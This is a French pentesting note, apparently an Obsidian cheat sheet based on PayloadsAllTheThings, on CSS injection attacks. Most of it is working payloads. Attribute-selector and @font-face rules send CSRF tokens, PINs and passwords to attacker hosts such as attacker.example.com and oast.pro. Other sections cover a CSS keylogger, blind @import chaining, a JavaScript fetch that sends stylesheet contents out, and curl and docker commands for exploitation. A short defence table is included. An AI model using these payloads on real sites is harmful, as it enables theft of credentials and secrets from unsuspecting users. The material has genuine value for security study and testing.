


# CSS Injection

> [!info] **En 1 phrase**
> CSS Injection = laisser l'attaquant injecter/contrôler du **CSS dans la page** pour **exfiltrer des
> données** (tokens CSRF, secrets, valeurs de champs) via des **sélecteurs** qui déclenchent des
> **requêtes réseau** vers son serveur — sans jamais exécuter de JS.
>
> Source principale : **[PayloadsAllTheThings — CSS Injection (swisskyrepo)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/CSS%20Injection/README.md)**

---

## Concept



> [!info] **Pourquoi ça marche**
> Le CSS est **statique mais actif** : chaque `<style>`/attribut `style` injecté est un oracle
> booléen. Pas besoin de JS → **contourne les CSP qui bloquent `script-src` mais laissent passer
> `style-src`**. Le navigateur fait les requêtes à notre place.

---

## Où injecter du CSS

Le CSS injecté arrive dans la page par plusieurs portes :

| Vecteur | Exemple |
|---|---|
| **Upload de fichier CSS** | `.css` accepté en téléversement, servi depuis l'origin |
| **CSS à la mode** (thèmes/skins) | paramètre `theme=URL.css`, personnalisation de profil (bio, pseudo, couleurs) |
| **Paramètre reflété dans `style`/`class`** | `?color=red` → `style="color: red"` sans échappement |
| **Attribut `style` d'un HTML injecté** | `"><style>...` via un XSS refleté / injection HTML |
| **Markdown riche** | éditeurs qui laissent passer `<style>` ou `background:url()` |
| **Attributs `background`, `bgcolor`** | vieux HTML : `background="url(...)"` |

> [!warning] **Condition clé** : le CSS doit être **contrôlé intégralement** (ou pouvoir être
> fermé/rouvert : `<style>` injecté dans un attribut nécessite de "sortir" du contexte). Un simple
> reflet encodé dans une valeur ne suffit pas — il faut **pouvoir placer des règles**.

---

## Exfiltration par sélecteurs d'attributs

### Les sélecteurs de base

```css
input[value^="a"]  /* value COMMENCE par "a"     (prefix) */
input[value$="a"]  /* value FINIT par "a"        (suffix) */
input[value*="a"]  /* value CONTIENT "a"         (substring) */
input[value="abc"] /* correspondance exacte */
```

> Chaque règle est un **oracle booléen** : si elle matche, le navigateur tente de charger
> `background-image: url(...)` → requête HTTP observable chez l'attaquant. Sinon, rien.

### Combinaison avec background-image + url()

```css
input[name="pin"][value="1234"] {
  background: url(https://[ATTACKER.DOMAIN.TLD]/log?pin=1234);
}
```

```css
input[value^="TOKEN_012"] {
  background-image: url(http://attacker.example.com/?prefix=TOKEN_012);
}
```

### Hidden input : utiliser le sélecteur frère

> [!warning] On ne peut PAS appliquer un `background` directement sur un **`input[type=hidden]`**
> (il n'est pas rendu). Solution : cibler un **élément visible frère** placé après lui.

```css
input[name="csrf-token"][value^="a"] + input {
  background: url(https://[ATTACKER.DOMAIN.TLD]/?q=a)
}
```

### `:has()` — styler le parent

```css
div:has(input[value="1337"]) {
  background:url(/collectData?value=1337);
}
```

### Accélérer : prefix + suffix en parallèle

Deux sélecteurs complémentaires sur **deux propriétés différentes** → 2 requêtes par étape :

```css
input[name="csrf"][value^="a"] {
  background: url(https://attacker/?p=a);      /* test prefix  */
}
input[name="csrf"][value$="a"] {
  list-style-image: url(https://attacker/?s=a); /* test suffix  */
}
```

---

## Keylogger CSS

Le principe : suivre la **saisie en temps réel** en re-sélectionnant chaque caractère tapé.

### Variante `input + span` (selecteur suivant le curseur)

```html
<style>
  input[name="password"][value^="a"] + span {
    background: url(https://attacker/keylog?a);
  }
</style>
<form>
  <input type="text" name="password" value="">
  <span></span>
</form>
```

### Variante @font-face / glyphs

On crée une police dont chaque glyphe déclenche une requête dès qu'il est rendu :

```css
@font-face {
  font-family: keylogger;
  src: url(https://attacker/?a);
  unicode-range: U+0061; /* 'a' */
}
@font-face {
  font-family: keylogger;
  src: url(https://attacker/?b);
  unicode-range: U+0062; /* 'b' */
}
input[type="password"] {
  font-family: keylogger;
}
```

> Dès que la victime tape `a`, le navigateur **charge la police du glyph 'a'** → requête. Répéter
> pour tout l'alphabet = keylogger 100% CSS. Limites : ne détecte qu'**une occurrence** (pas de
> doublons "aa"), pas l'ordre, pas la position.

---

## Exfiltration de données caractère par caractère

C'est la méthode **bruteforce séquentielle** : on devine le secret **1 caractère à la fois**.

### Pipeline



### Payload d'énumération

```css
/* Devine que le token commence par "a" */
input[name="token"][value^="a"] {
  background: url(https://attacker/?c=a);
}
/* Ensuite on teste le 2e caractère avec le préfixe acquis */
input[name="token"][value^="ab"] {
  background: url(https://attacker/?c=ab);
}
```

### Timing via background

> [!tip] Si on ne peut pas envoyer de requête sortante, on peut **mesurer le temps de rendu** :
> un élément matché reçoit un `background` lourd → la page met plus de temps à finir de charger.

```css
input[name="pin"][value^="1"] {
  background-image: url("https://de-lay.me/3000");
}
```

---

## Blind CSS Injection

Quand **on ne voit rien** de la page (pas de sélecteurs connus, pas de nom de champ) → on enchaîne
des **étapes aveugles** pilotées par un serveur.

### Le principe

```html
<style>@import url(http://[ATTACKER.DOMAIN.TLD]/staging?len=32);</style>
<style>@import'//[ATTACKER.DOMAIN.TLD]'</style>
```

1. On injecte un `@import` initial qui pointe vers un **staging** contrôlé.
2. Le staging génère un payload qui **tient la connexion ouverte** (long-polling) et teste un caractère.
3. Si un sélecteur matche, le navigateur fait une requête `background` → le serveur la voit.
4. Le serveur renvoie alors le **prochain `@import`** pour continuer la chaîne — **sans recharger la page**.

> [!info] L'`@import` ne se résout qu'une fois le précédent chargé → **chaînage séquentiel
> garanti**. On pilote l'exfiltration **étape par étape côté serveur**.

### Exfiltration de pages inconnues

On bruteforce d'abord **la structure** (il existe un `input` ? un `div` avec tel parent ?) puis les
**valeurs** :

```css
/* Découverte : y a-t-il un input ?
   → styler TOUT input présent et observer si la requête part */
input {
  background: url(https://attacker/?exists=input);
}

/* Pagination : deviner le contenu d'un champ invisible, 1 caractère à la fois,
   en utilisant un frère visible comme déclencheur */
input[name="secret"][value^="a"] + div {
  background: url(https://attacker/?len=1&ch=a);
}
```

### Interactsh comme collecteur

```bash
# Serveur OAST pour collecter les callbacks CSS sans infrastructure
interactsh-client -v
# Exemple de callback reçu :
# HTTP [GET] https://....oast.pro/?ch=a
```

> [!tip] Tout payload CSS ci-dessus peut pointer vers `https://TOKEN.oast.pro/...` : le sous-domaine
> **contient la donnée volée** dans l'URL → récupération via le client Interactsh ou Burp Collaborator.

---

## @import / @font-face / CSSOM — vecteurs côté serveur

### @import

Règle de niveau **top-level** (doit précéder toute autre règle) pour inclure une feuille distante :

```css
@import url(http://[ATTACKER.DOMAIN.TLD]/staging?len=32);
```

- L'URL est résolue **depuis l'origin du CSS** → si la feuille est servie par l'attaquant, les URLs
  relatives partent vers **son** serveur.
- Permet le **chaînage** (SIC, voir plus bas) sans rechargement d'iframe.

### SIC — Sequential Import Chaining

1. `@import` initial → staging (connexion maintenue ouverte).
2. Le serveur génère le payload qui teste un caractère (ex: `input[value^=a]` + `background`).
3. Le match déclenche une requête → le serveur **détecte** le caractère et génère l'`@import` suivant.
4. La chaîne continue **sans reload** : exfiltration complète d'une page inconnue.

### @font-face + unicode-range (oracle d'existence)

```html
<style>
@font-face{ font-family:poc; src: url(http://attacker.example.com/?A); unicode-range:U+0041; }
@font-face{ font-family:poc; src: url(http://attacker.example.com/?B); unicode-range:U+0042; }
@font-face{ font-family:poc; src: url(http://attacker.example.com/?C); unicode-range:U+0043; }
#sensitive-information{ font-family:poc; }
</style>
<p id="sensitive-information">AB</p>
```

> La requête `/?A` et `/?B` partent (les caractères **A**, **B** existent), `/?C` jamais (pas de **C**).
> Limites : ne distingue pas les doublons ("AA" = 1 requête), ignore l'ordre. Chrome a refusé de
> corriger (WontFix) → technique très fiable.

### CSSOM (si on a aussi un peu de JS/XSS)

```js
// En complément : lire les règles chargées dans le DOM
for (const sheet of document.styleSheets) {
  for (const rule of sheet.cssRules) {
    fetch("https://attacker/?" + encodeURIComponent(rule.cssText));
  }
}
```

---

## Techniques avancées d'extraction

### Extraction d'attribut via `attr()`

La fonction CSS `attr()` + `image-set()` peut **faire partir une requête contenant la valeur brute** :

```css
input[name="password"] {
  background: image-set(attr(value))
}
```

```html
<!-- HTML cible -->
<input type="text" name="password" value="supersecret">
```

> [!tip] **Cross-origin** : le navigateur résout l'URL relative **par rapport à l'origin de la
> feuille** (l'attaquant), pas de la page. Résultat sur le serveur attaquant :

```text
10.10.10.10 - - [15/Feb/2026 16:33:21] "GET /supersecret HTTP/1.1" 404 -
```

### Conditionnels CSS `if()` — exfiltration inline

CSS moderne : des conditionnels `if()` + variables dans un `style` inline permettent de voler un
attribut sans feuille externe :

```html
<div style='--val: attr(data-uid); --steal: if(style(--val:"1"): url(/1); else: if(style(--val:"2"): url(/2); else: if(style(--val:"3"): url(/3); else: url(/10)))); background: image-set(var(--steal));' data-uid='1'></div>
```

### Ligatures (text nodes)

1. Créer une police custom où une **séquence ciblée** devient une ligature ultra-large.
2. Détecter le changement de **largeur** via media queries / scrollbar.

```bash
# fontleak : exfiltrer le texte d'un sélecteur unique
docker run -it --rm -p 4242:4242 -e BASE_URL=http://localhost:4242 ghcr.io/adrgs/fontleak:latest
```

```html
<style>@import url("http://localhost:4242/?selector=.secret&parent=head&alphabet=abcdef0123456789");</style>
```

> [!warning] Le sélecteur de fontleak doit matcher **exactement UN élément** de la page, sinon
> l'extraction échoue.

---

## Détection — le CSS est-il reflété et contrôlable ?

### Checklist

1. **Reflet** : injecter un marqueur visible dans une valeur de paramètre.
2. **Contrôle de contexte** : peut-on "sortir" de l'attribut et poser nos propres règles ?
   - `?color=red` → `style="color: red"` → on essaie `red;background:url(ATTACKER)`
   - fermeture : `"><style>@import url(ATTACKER);</style>`
3. **Sortie** : avec le serveur OAST qui écoute, un `background:url` ou un `@import` doit générer un
   callback HTTP/DNS.

```bash
# Tester rapidement avec curl (réponse brute)
curl -s "https://target/page?color=red%3Bbackground%3Aurl(https%3A//PINTEREST.oast.pro/t)"
# Si un callback arrive → reflet contrôlable
```

> [!tip] **Le test d'or** : injecter un sélecteur **impossible à matcher** (`input[value^="zzzz"]`)
> et un **toujours vrai** (`*`) : l'un ne doit jamais faire de requête, l'autre toujours.

---

## Outils

| Outil | Usage |
|---|---|
| **[blind-css-exfiltration](https://github.com/hackvertor/blind-css-exfiltration)** (hackvertor) | Exfiltration blind de pages inconnues via CSS |
| **[css-exfiltration](https://github.com/PortSwigger/css-exfiltration)** (PortSwigger) | Collection de techniques d'exfiltration CSS |
| **[css-scrollbar-attack](https://github.com/cgvwzq/css-scrollbar-attack)** | Leak de text nodes via scrollbars |
| **[sic](https://github.com/d0nutptr/sic)** | Sequential Import Chaining avancé |
| **[fontleak](https://github.com/adrgs/fontleak)** | Exfiltration rapide par ligatures |
| **[Burp Suite](https://portswigger.net/burp)** | Repeater + Collaborator/Interactsh comme collecteur de callbacks |
| **`css keylogger`** | scripts one-shot pour générer les payloads @font-face |
| **Interactsh / Collaborator** | collecte OAST des requêtes de chaque caractère |

---

## Détection & Défense

| Défense | Détail |
|---|---|
| **CSP `style-src` strict** | `default-src 'self'; style-src 'self' 'unsafe-inline'` NON. Imposer `style-src 'self'` ou **nonce/hash** sur les `<style>` ; bannir `url()` vers l'extérieur si possible (`connect-src`, `img-src` restrictifs). |
| **Pas de CSS utilisateur** | Jamais de thème/personnalisation qui reflète du CSS libre ; sandboxer via iframe `sandbox` |
| **Échappement dans `style`/`class`** | Encoder `"` `'` `<` `>` `;` `(` `)` `\` dans les valeurs reflétées |
| **Sanitisation du HTML** | DOMPurify (et variantes) en amont des rich-text : supprime `<style>`, `style=`, `background`, `@import` |
| **`nonce` sur `<style>`** | Les blocs de style injectés par l'attaquant n'ont pas le nonce → jamais appliqués |
| **Séparer les origins** | Upload de CSS sur un domaine dédié sans cookies, CSP `cross-origin` |
| **Détection** | Surveiller les requêtes sortantes vers des domaines inattendus (logs), les patterns `url(http` / `@import` dans le trafic |
| **Limiter `@import`** | CSP peut bloquer l'import de feuilles externes (`style-src` sans `https:` sauvage) |

---

## Tips & Pièges

> [!tip] **Vitesse d'exfiltration**
> - Un sélecteur = **~1 caractère par requête** ; limiter l'alphabet aux caractères plausibles
>   (base64, hex, `a-z0-9`) plutôt que tout l'Unicode.
> - Utiliser **prefix ET suffix** en parallèle sur deux propriétés (`background` +
>   `list-style-image`/`border-image`) → **2 caractères par étape**.
> - `@font-face` teste **tout le jeu de caractères en une seule passe** (1 requête/char existant) :
>   excellent pour du probing rapide, mauvais pour l'ordre.
> - **Dichotomie** sur la longueur d'abord (`len=5?`, `len>5?`), puis par caractère.

> [!warning] **Pièges des navigateurs modernes**
> - `input[type=hidden]` : **jamais de background possible** → toujours passer par un frère visible.
> - `@font-face` ne compte que la **présence** : doublons et ordre sont invisibles.
> - Les **pseudo-classes sensibles à la confiance** (`:visited`) ont été neutralisées par les navigateurs.
> - `attr()`/`image-set()` et `if()` sont **récents** : vérifier le support de la cible avant de baser
>   l'attaque dessus.
> - Le **CSP** de la cible peut bloquer `img-src`/`style-src` externes → tester tôt, adapter (data:,
>   même-origin, timing).

> [!warning] **Client vs serveur**
> - **Côté client (le plus courant)** : le CSS est rendu dans le navigateur de la victime → payloads
>   sélecteurs/background/@font-face. Serveur = collecteur passif.
> - **Côté serveur** : si un outil serveur parse le CSS (ex: rendu PDF, moteur de template qui
>   résout `url()`, `@import` de pré-render) → le **serveur** fait les requêtes à notre place.
>   Interactsh le détecte. Adapter les payloads en conséquence (ex: PDF generators → `@import` local).

> [!tip] **Ordre d'attaque conseillé**
> 1. Prouver le reflet contrôlable (callback OAST) → 2. Découvrir la structure (un `input` existe ?)
> → 3. Mesurer la longueur du secret → 4. Exfiltrer caractère par caractère (prefix/suffix parallèles)
> → 5. Automatiser le serveur (SIC / blind-css-exfiltration).

---

## Liens

- [[XSS (Cross-Site Scripting)| XSS]]
- [[XS-Leak| XS-Leak]]
- [[DOM Clobbering| DOM Clobbering]]
- → Note complète : [[03 - Exploitation Web| Exploitation Web]]
- Source : [PayloadsAllTheThings — CSS Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/CSS%20Injection/README.md)
